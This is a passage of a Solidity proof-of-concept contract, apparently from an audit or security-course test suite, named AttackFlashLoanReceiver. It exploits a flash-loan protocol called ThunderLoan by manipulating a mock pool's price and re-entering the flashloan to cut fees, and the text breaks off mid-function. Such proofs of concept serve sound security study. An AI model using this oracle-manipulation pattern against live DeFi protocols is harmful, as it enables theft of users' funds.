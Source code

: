 ```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

import { IERC20 } from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import { SafeERC20 } from "@openzeppelin/contracts/token/ERC20/utils/SafeERC20.sol";
import { IFlashLoanReceiver, IThunderLoan } from "../../src/interfaces/IFlashLoanReceiver.sol";
import { IERC20 } from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import { MockTSwapPool } from "./MockTSwapPool.sol";
import { ThunderLoan } from "../../src/protocol/ThunderLoan.sol";

contract AttackFlashLoanReceiver {
    error AttackFlashLoanReceiver__onlyOwner();
    error AttackFlashLoanReceiver__onlyThunderLoan();

    using SafeERC20 for IERC20;

    address s_owner;
    address s_thunderLoan;

    uint256 s_balanceDuringFlashLoan;
    uint256 s_balanceAfterFlashLoan;

    uint256 public attackAmount = 1e20;
    uint256 public attackFee1;
    uint256 public attackFee2;
    address tSwapPool;
    IERC20 tokenA;

    constructor(address thunderLoan, address _tSwapPool, IERC20 _tokenA) {
        s_owner = msg.sender;
        s_thunderLoan = thunderLoan;
        s_balanceDuringFlashLoan = 0;
        tSwapPool = _tSwapPool;
        tokenA = _tokenA;
    }

    function executeOperation(
        address token,
        uint256 amount,
        uint256 fee,
        address initiator,
        bytes calldata params
    )
        external
        returns (bool)
    {
        s_balanceDuringFlashLoan = IERC20(token).balanceOf(address(this));

        // check if it is the first time through the reentrancy
        bool isFirst = abi.decode(params, (bool));

        if (isFirst) {
            // Manipulate the price
            MockTSwapPool(tSwapPool).setPrice(1e15);
            // repay the initial, small loan
            IERC20(token).approve(s_thunderLoan, attackFee1 + 1e6);
            IThunderLoan(s_thunderLoan).repay(address(tokenA), 1e6 + attackFee1);
            ThunderLoan(s_thunderLoan).flashloan(address(this), tokenA, attackAmount, abi.encode(false));
            attackFee1 = fee;
            return true;
        } else {
            attackFee2 = fee;
```